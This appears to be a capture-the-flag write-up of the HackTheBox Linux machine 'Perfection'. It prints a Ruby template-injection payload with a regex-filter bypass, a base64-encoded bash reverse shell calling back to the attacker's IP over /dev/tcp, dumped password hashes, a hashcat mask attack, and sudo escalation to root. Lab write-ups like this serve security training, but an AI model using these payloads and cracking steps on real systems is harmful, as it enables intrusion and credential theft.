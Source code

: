 ```yaml
---
layout: post
title: "HTB Linux Easy: Perfection"
description: "Perfection is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.73.125
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-02 14:07 EST
Nmap scan report for 10.129.73.125
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.99 seconds
```


## Enumerate HTTP (Port 80)
Landing page reveals WEBrick version 1.7.0 running.
![Pasted image 20240715111629.png](/images/Pasted image 20240715111629.png){: .normal }

A Gobuster scan reveals a couple of subdirectories.
```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u <http://10.129.73.125/> -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.129.73.125/>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 274]
/]                    (Status: 400) [Size: 274]
/about                (Status: 200) [Size: 3827]
/plain]               (Status: 400) [Size: 279]
/quote]               (Status: 400) [Size: 279]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

When browsing to `/plain]` we get more information about the ruby version and perfection being ran on port 3000.
![Pasted image 20240715111623.png](/images/Pasted image 20240715111623.png){: .normal width="500" }


The `;id` payload in the calculator function results in `malicious input blocked`.
![Pasted image 20240715111618.png](/images/Pasted image 20240715111618.png){: .normal }

Generate base64 reverse shell (make sure there are special characters).
![Pasted image 20240715111613.png](/images/Pasted image 20240715111613.png){: .normal }


Payload used in Burp: [regexp cheat sheet](https://github.com/attackercan/regexp-security-cheatsheet).
```bash
category1=a %0A;<%25%3d+system("echo+IyEvYmluL2Jhc2gKYmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjEvMjIyMiAgMD4mMSAi|base64 -d|bash")+%25>+&grade1=10&weight1=20&category2=2&grade2=10&weight2=20&category3=3&grade3=10&weight3=20&category4=4&grade4=10&weight4=20&category5=5&grade5=10&weight5=20
```

Shell as susan.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2222
listening on [any] 2222 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.93.233] 33324
bash: cannot set terminal process group (969): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

User flag: `4e621351d9e10339cef2ba3558875032`
```bash
susan@perfection:~$ cat user.txt
4e621351d9e10339cef2ba3558875032
```

## Privilege Escalation
We find possible credentials for a couple of users in the Migration directory located in susan’s home directory.
```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db
strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Whilst enumerating for files owned by the susan group we find.
```bash
susan@perfection:/var/spool/mail$ find / -group susan 2>/dev/null
/var/mail/susan
```

In the mail file we find the password template.
```bash
susan@perfection:~$ cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

We can crack the hash we previously find using a hashcat mask attack: [Link](https://hashcat.net/wiki/doku.php?id=mask_attack). Since the password format is susan_nasus_{1-1,000,000,000} we will specify the following hashcat mask.
```bash
# hash file
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

# hashcat command
hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

# Result
┌──(kali㉿kali)-[~]
└─$ hashcat -m 1400 hash -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

Let’s use the password for sudo -l.
```bash
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ 
```

Switch to the root user.
```bash
susan@perfection:~$ sudo su
root@perfection:/home/susan# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `4826b44387fb5ede89b7027431ebb867`
```bash
root@perfection:~# cat root.txt 
4826b44387fb5ede89b7027431ebb867
```

## PWNED!!!
![Pasted image 20240715111552.png](/images/Pasted image 20240715111552.png){: .normal }